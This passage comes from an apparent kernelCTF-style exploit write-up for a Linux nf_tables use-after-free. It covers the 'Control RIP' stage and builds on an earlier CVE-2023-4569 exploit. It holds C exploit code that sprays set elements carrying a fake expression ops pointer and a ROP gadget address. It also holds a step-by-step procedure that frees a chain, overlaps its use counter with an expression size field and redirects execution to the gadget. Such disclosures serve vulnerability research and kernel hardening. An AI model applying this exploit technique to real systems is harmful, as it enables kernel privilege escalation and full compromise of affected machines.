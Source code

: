   ```c
  static int nf_tables_fill_setelem(struct sk_buff *skb,
				  const struct nft_set *set,
				  const struct nft_set_elem *elem)
  ...
  if (nft_set_ext_exists(ext, NFT_SET_EXT_OBJREF) &&
	    nla_put_string(skb, NFTA_SET_ELEM_OBJREF,
			   (*nft_set_ext_obj(ext))->key.name) < 0)
		goto nla_put_failure;
  ...
  ```


### Control RIP
This part of the exploit is basically the same as CVE-2023-4569. If you want to understand more details, read this [article](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-4569_lts/docs/exploit.md).

The only difference is that when exploiting CVE-2023-4569, we put the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` at offset 0x30, while in this exploit, we need to put it at offset 0x50 (because we used primitive_1 in Primitive, nft_chain->use offset is 0x50). Similar to the Leak info, I chose to put the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` at offset 0x50 by increasing `NFTA_SET_ELEM_DATA`:
```c
//step 4 create normal set elem with expr, make offsetof(chain->use) == offsetof(expr->size)
    *(uint64_t *)&pad[0] = target_heap;//expr->ops
    *(uint64_t *)&pad[8] = kernel_off + 0xFFFFFFFF8165A0A3;//leave ; ret
    for(i=0;i<0x1000;i++){
    	*(uint64_t *)hash_key_48 = i;
	new_setelem_with_expr_and_elemdata(socket, table, hash_set_for_expr, pad, 0x10, NULL, hash_key_48, 48, NULL, 0);
    }
```
```c
void new_setelem_with_expr_and_elemdata(struct nl_sock * socket,char *table_name, char *set_name, void *elemdata, uint32_t elemdata_len, char *obj_ref, char * input_key, int key_len, char *key_end, int key_end_len){
	...
	if(elemdata > 0){
        nla_put(elem_data, NFTA_DATA_VALUE, elemdata_len, elemdata);
		nla_put_nested(elem_nest, NFTA_SET_ELEM_DATA, elem_data);
    }
	...
```

I control the RIP by the following steps:
- 1. Create a chain for ROP(`chain X`)
- 2. Create 0x20 set elements wihch use `chain X` created in step 1. After step2, we will set `chain X->use = 0x20`
- 3. Call `primitive_1` 0x20 times, finally making `chain X->use = 0`
- 4. Delete `chain X`
- 5. Create 0x1000 new set elements. These new elements are carefully constructed so that the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` is exactly at the position of `chain X->use`.
- 6. Delete all the set elements we created in step 2. Now we change the `size` of `NFT_SET_EXT_EXPRESSIONS` of a set element which we created in step 5. We will change the `size` from `0x10` to `0xfffffff0`. Now we get a fake `nft_expr` expr[1]. We can fill the `ops` and the `data` of the fake expr in `NFTA_SET_ELEM_DATA`. 
- 7. Dump all the set elements we create in step 5. Finally we will jmp to our ROP gadget.
  ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

  ```
